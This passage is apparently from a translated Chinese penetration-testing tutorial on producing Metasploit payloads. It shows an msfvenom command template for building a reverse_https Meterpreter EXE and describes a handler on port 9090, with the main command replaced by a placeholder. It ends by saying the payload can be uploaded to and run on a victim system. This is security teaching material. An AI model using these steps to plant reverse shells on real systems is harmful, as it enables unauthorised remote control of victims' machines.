 接下来，我们将看一下 MSF 负载生成。

# MSF 负载生成

负载生成是 Metasploit Framework 中最有用的功能之一。从简单的 shellcode 生成到完全武装的 EXE/DLL 文件，Metasploit 可以在一条命令中生成。负载可以通过两种方式生成。

# 使用 msfconsole 生成 MSF 负载（一行命令）

通过使用 MSF 控制台并执行负载生成命令，您可以生成任何 MSF 支持的负载。使用此技术的一个优点是您不必单独启动负载处理程序。这可以通过一条命令完成。要生成负载并启动处理程序，请执行以下代码：

[PRE6]

以下屏幕截图显示了上述命令的输出：

![](img/98134196-af74-4fcc-b15c-c66e3ed8bf92.png)

上述命令将生成`reverse_https` Meterpreter 负载。列出它以确认生成的负载，并在端口`9090`上启动处理程序以进行传入连接。生成负载的另一种方法是使用 MSFvenom。

在上述命令中，使用`-q`开关以安静模式启动 MSF，`-x`在启动后在控制台中执行命令。

# 使用 msfvenom 生成 MSF 负载

MSFvenom 是一个内置工具，可以生成和混淆负载，无需启动 MSF。执行`msfvenom -p <MSF 支持的负载> lhost=<IP> lport=<PORT> -f <输出文件格式> -o <负载文件名>`命令以生成 EXE 格式的`reverse_https` Meterpreter 负载并保存文件：

![](img/02196b7c-1a4f-4874-8072-fd907beb0113.png)

在这两种情况下，我们使用了`ls -alh https_2.exe`。

现在可以将此负载上传/执行到受害者系统上，以通过安全的 HTTPS 隧道与我们建立反向 Meterpreter 连接。
